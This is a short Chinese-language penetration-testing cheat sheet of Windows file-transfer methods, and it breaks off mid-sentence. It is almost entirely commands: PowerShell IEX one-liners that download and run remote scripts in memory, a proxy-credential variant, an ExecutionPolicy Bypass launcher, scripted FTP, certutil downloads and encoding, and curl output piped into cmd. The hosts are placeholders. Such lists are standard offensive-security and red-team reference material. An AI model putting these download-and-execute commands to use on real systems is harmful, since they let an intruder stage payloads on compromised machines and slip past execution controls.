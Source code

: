 内存中的PowerShell单行脚本执行

```
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

带有代理的PowerShell

```
$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
```

PowerShell脚本

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://server/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

通过文本文件的非交互式FTP。*当您只有有限的命令执行时很有用。*

```
echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
		
ftp -v -n -s:ftp.txt
```

证书实用程序

```
certutil.exe -urlcache -split -f https://myserver/filename outputfilename
```

Certutil也可以用于base64编码/解码。

```
certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
```

从Windows 10 1803（2018年4月更新）`curl`开始，已实现该命令，该命令提供了另一种传输文件甚至在内存中执行文件的方法。*直接插入cmd将运行大多数内容，但是似乎您的脚本中除了常规命令之外还存在其他任何内容，例如循环，if语句等，它无法正确运行它们。*

```
curl http://server/file -o file
curl http://server/file.bat | cmd
```

并使用PowerShell
